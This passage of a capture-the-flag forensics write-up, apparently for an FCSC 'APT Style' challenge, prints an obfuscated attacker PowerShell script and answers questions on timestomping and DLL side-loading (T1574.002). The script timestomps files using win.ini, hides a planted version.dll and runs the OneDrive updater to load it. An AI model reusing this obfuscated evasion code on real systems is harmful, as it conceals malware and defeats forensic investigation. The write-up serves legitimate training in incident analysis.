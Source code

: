 ```powershell

    ${ts} = &("{1}{2}{0}" -f'tem','Get','-I') ("C:\Windows\win.ini") | .("{1}{0}" -f'oreach','F') {${_}."l`Astwr`iTetIMe"};
    ${files}= @(((("{11}{2}{16}{3}{1}{5}{20}{13}{7}{12}{17}{23}{14}{18}{19}{10}{6}{15}{8}{22}{9}{4}{0}{21}" -f 'er','MicrosoftwG','am ','Gi','at','iOne','iveSta','Upd','d','neUpd','r','C:wGiProgr','ate','ive','O','n','Filesw','rwG','ne','D','Dr','.exe','alo','i'))  -CRePLACe  ([cHAr]119+[cHAr]71+[cHAr]105),[cHAr]92), ((("{5}{1}{9}{13}{3}{6}{15}{14}{8}{0}{10}{2}{4}{11}{12}{7}" -f 'tq',':qXGPro','e','Micr','U','C','o','n.dll','f','gram F','XGOneDriv','pdaterq','XGversio','ilesqXG','o','s'))-cRePlaCe([cHar]113+[cHar]88+[cHar]71),[cHar]92), ((("{14}{11}{5}{13}{8}{10}{6}{12}{4}{9}{3}{0}{1}{2}{7}" -f 'UpdaterLX','nv','ers','ve','LXnOn','am ','Microsof','lon.dll','s','eDri','LXn','XnProgr','t','File','C:L')) -cRePLaCe'LXn',[CHAR]92), ((("{2}{3}{1}{7}{0}{8}{6}{5}{4}" -f'0Micros','m Fil','C:a','Y0Progra','pdater','0OneDriveU','taY','esaY','of')).("{0}{2}{1}" -f 'r','PLacE','e').Invoke('aY0','\')), ((("{4}{2}{1}{0}{3}"-f'}Microso','s{0','File','ft{0}','C:{0}Program '))  -f[chAR]92));
    ${files}.('ForEach')({
        ${file} = .('gi') ${_};
        ${file}."LastWriteTime"=${ts};
        ${file}."LastAccessTime"=${ts};
        ${file}."CreationTime"=${ts};
    })
    &('attrib') ('+s') ('+h') ('C:\Program Files\Microsoft\OneDriveUpdater\version.dll') ('/S') ('/D') ('/L');
    & ('C:\Program Files\Microsoft\OneDriveUpdater\OneDriveStandaloneUpdater.exe');
}
```
We can see the file used to timestomp is ```C:\Windows\win.ini```.

FLAG: ```FCSC{C:\Windows\win.ini}```.

# APT Style 4/7

Question

Quelle technique est employée par l'attaquant pour exécuter la charge malveillante ? La réponse attendue est l'ID complet de la technique au sens de la matrice MITRE ATT&CK, au format FCSC{TXXXX.XXX}.

## Solution

My guess was that the downloaded ```version.dll``` was replacing a valid dll and that malicious code was executed when ```OneDriveStandaloneUpdater.exe``` would use it.

A little search [here](https://attack.mitre.org/techniques/enterprise/) gives ```T1574.002```.

FLAG: ```FCSC{T1574.002}```

# APT Style 5/7

Question

Note : il semblerait que l'attaquant ait supprimé de son répertoire en ligne la DLL malveillante... L'administrateur ayant observé les comportements malveillants a fait l'installation le 15/03/2023
